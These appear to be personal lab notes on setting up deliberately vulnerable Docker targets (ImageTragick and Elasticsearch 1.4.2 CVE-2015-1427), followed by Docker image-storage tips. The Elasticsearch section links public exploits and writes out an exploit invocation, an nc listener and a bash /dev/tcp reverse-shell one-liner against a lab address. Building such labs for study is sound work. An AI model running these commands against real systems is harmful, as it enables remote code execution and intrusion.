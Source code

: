 From the host, browse to `<vm_ip>:3000`. 

To exploit the RCE, read: https://imagetragick.com/


2) Elasticsearch 1.4.2 RCE CVE-2015-1427

https://github.com/t0kx/exploit-CVE-2015-1427
https://www.exploit-db.com/exploits/36337

From the Ubuntu VM:

```bash
docker build -t elasticsearch .

docker run --rm -d -p 9200:9200 elasticsearch
```

From the host (/Desktop/repos/Exploit folder):

```bash
pipenv shell

python2 elc_rce.py 172.16.3.10
```


To get a shell
 1) Set up a listener in the guest VM: `nc -nlvp 1234`

 CHECK METASPLOIT PAYLOAD BECAUSE THIS DOESN'T WORK

 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp

 2) Run the following command: `bash -i >& /dev/tcp/172.16.3.10/1234 0>&1`



## (Docker) Image storage

MacOS: `~/Library/Containers/com.docker.docker/Data/vms/0/`

Linux: `/var/lib/docker`

If you use the default storage driver overlay2, then your Docker images are stored in `/var/lib/docker/overlay2`. More info about storage drivers here: https://docs.docker.com/storage/storagedriver/select-storage-driver/


## Docker pull

```bash
docker pull <image>
```

The just downloaded image will be in `/var/lib/docker/overlay2/<???>`



## Save a Docker image as a tar file
